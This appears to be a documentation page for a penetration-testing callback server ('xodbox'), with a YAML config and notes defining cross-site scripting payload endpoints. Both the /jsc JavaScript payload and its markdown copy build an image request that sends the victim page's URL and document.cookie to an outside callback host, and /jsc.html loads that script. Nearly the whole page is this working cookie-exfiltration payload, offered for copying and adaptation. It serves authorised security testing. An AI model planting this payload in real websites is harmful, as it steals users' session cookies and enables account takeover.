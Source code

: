 ```yaml
---
title: XSS Payloads
description: Returns JS that embeds an image back to xodbox
weight: -500
payloads:
  - sort_order: -500
    pattern: /jsc$
    is_final: true
    data:
      headers:
        "Content-Type": "text/javascript"
      body: |
        (function (){
            var s = document.createElement("img");
            document.body.appendChild(s);
            s.src="{{ .CallBackURL}}?src="+window.location+"&c="+document.cookie;
        })()
  - sort_order: -500
    pattern: /jsc.html$
    is_final: true
    data: 
      headers:
        "Content-Type": "text/html"
      body: |
        <!DOCTYPE html>
        <html>
          <head>
            <meta charset="utf-8">
          </head>
          <body>
            <script src="//{{.Host}}/jsc"></script>
          </body>
        </html>

---
```


### /jsc

Simple JS Payload. Useful form embedding or quickly copying and modifying for an XSS payload to prove execution and
exfil.

```javascript
(function (){
    var s = document.createElement("img");
    document.body.appendChild(s);
    s.src="//{{ .Host }}/jscb?src="+window.location+"&c="+document.cookie;
})()

```

### /jsc.html

Simple HTML to load simple JS Payload.

